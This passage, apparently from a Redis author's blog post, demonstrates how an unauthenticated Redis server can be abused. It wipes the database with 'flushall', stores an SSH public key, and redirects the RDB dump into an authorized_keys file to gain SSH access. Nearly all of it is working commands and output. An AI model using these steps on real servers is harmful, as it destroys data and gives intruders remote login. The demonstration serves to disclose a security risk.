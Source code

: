 Let’s start generating a new SSH key:

$ ssh-keygen -t rsa -C "crack@redis.io"
Generating public/private rsa key pair.
Enter file in which to save the key (/home/antirez/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in ./id_rsa.
Your public key has been saved in ./id_rsa.pub.
The key fingerprint is:
f0:a1:52:e9:0d:5f:e4:d9:35:33:73:43:b4:c8:b9:27 crack@redis.io
The key's randomart image is:
+--[ RSA 2048]----+
|          .   O+.|
|       . o o..o*o|
|      = . + .+ . |
|     o B o    .  |
|    . o S    E . |
|     .        o  |
|                 |
|                 |
|                 |
+-----------------+

Now I’ve a key. My goal is to put it into the Redis server memory, and later to transfer it into a file, in a way that the resulting authorized_keys file is still a valid one. Using the RDB format to do this has the problem that the output will be binary and may in theory also compress strings. But well, maybe this is not a problem. To start let’s pad the public SSH key I generated with newlines before and after the content:

$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > foo.txt

Now foo.txt is just our public key but with newlines. We can write this string inside the memory of Redis using redis-cli:

$ redis-cli -h 192.168.1.11 flushall
$ cat foo.txt | redis-cli -h 192.168.1.11 -x set crackit

Looks good. How to dump our memory content into the authorized_keys file? That’s
kinda trivial.

$ redis-cli -h 192.168.1.11
192.168.1.11:6379> config set dir /Users/antirez/.ssh/
OK
192.168.1.11:6379> config get dir
1) "dir"
2) "/Users/antirez/.ssh"
192.168.1.11:6379> config set dbfilename "authorized_keys"
OK
192.168.1.11:6379> save
OK
